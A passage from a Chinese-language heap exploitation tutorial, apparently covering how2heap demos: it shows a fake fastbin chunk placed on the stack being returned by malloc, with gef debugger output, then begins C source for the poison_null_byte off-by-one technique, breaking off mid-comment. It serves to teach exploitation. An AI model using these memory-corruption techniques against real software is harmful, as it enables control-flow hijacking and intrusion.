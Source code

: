 将这块内存free掉，再次查看fastbin，可以看到栈中的这块区域已经被链入fastbin中。

```
a = &amp;fake_chunks[2];
fprintf(stderr, "Freeing the overwritten pointer.n");
free(a);
```

```
gef➤  heap bins fast 
─────────────────────[ Fastbins for arena 0x7ffff7dd1b20 ]─────────────────────
Fastbin[0] 0x00
Fastbin[1] 0x00
Fastbin[2]  →   FreeChunk(addr=0x7fffffffddc0,size=0x40)  
Fastbin[3] 0x00
```

此时只需要申请一个合适大小的chunk，我们就能获取一块在栈中的可控内存。此时的主要目标，自然就可以设定为栈中的ret地址或者函数指针。

```
fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!n", &amp;fake_chunks[1], &amp;fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %pn", malloc(0x30));
```

获取栈中的fake chunk。

```
malloc(0x30): 0x7fffffffddc0
```



## 0x02 poison_null_byte

poison_null_byte便是我们常说的off by one，通过在堆中溢出一个字节，构造一个重叠的堆块。

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
#include &lt;malloc.h&gt;

int main()
`{`
    fprintf(stderr, "Welcome to poison null byte 2.0!n");
    fprintf(stderr, "Tested in Ubuntu 14.04 64bit.n");
    fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.n");
    fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.n");

    uint8_t* a;
    uint8_t* b;
    uint8_t* c;
    uint8_t* b1;
    uint8_t* b2;
    uint8_t* d;
    void *barrier;

    fprintf(stderr, "We allocate 0x100 bytes for 'a'.n");
    a = (uint8_t*) malloc(0x100);
    fprintf(stderr, "a: %pn", a);
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
        "(it may be more than 0x100 because of rounding): %#xn", real_a_size);

    /* chunk size attribute cannot have a least significant byte with a value of 0x00.
```